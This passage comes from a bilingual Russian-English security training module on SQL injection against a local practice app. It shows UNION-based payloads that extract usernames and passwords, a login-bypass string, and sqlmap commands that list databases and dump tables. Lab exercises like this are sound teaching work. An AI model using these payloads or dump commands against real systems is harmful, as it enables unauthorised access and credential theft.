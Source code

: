 **Шаг 3: Find string columns**
```sql
' UNION SELECT 'a',null,null--
' UNION SELECT null,'a',null--
# Где 'a' отображается = string column
```

**Шаг 4: Extract data**
```sql
' UNION SELECT null, username, password FROM users--
' UNION SELECT null, table_name, null FROM information_schema.tables--
```

#### Automated: sqlmap

```bash
# Basic
sqlmap -u "http://localhost:8080/login.php?id=1"

# Full automation
sqlmap -u "URL" --dbs                    # Databases
sqlmap -u "URL" -D dbname --tables       # Tables
sqlmap -u "URL" -D dbname -T users --dump # Data

# POST request
sqlmap -u "URL" --data="username=test&password=test"
```

---

### 💻 Практика: SQL Injection

**Задание:**

**Часть 1: Manual SQLi**

1. Откройте http://localhost:8080
2. В Login form попробуйте:
```
Username: ' OR '1'='1
Password: anything
```

3. Приложение показывает SQL запрос — изучите его

4. Попробуйте другие payloads из `artifacts/examples/sql_injection_payloads.txt`

5. Попытайтесь:
   - Bypass authentication
   - Понять структуру query

**Часть 2: Automated с sqlmap (если установлен)**

```bash
# Установка
sudo apt install sqlmap

# Test GET parameter
sqlmap -u "http://localhost:8080/page.php?id=1" --batch

# Test POST (login form)
sqlmap -u "http://localhost:8080/login.php" \
  --data="username=test&password=test" \
  --batch
```
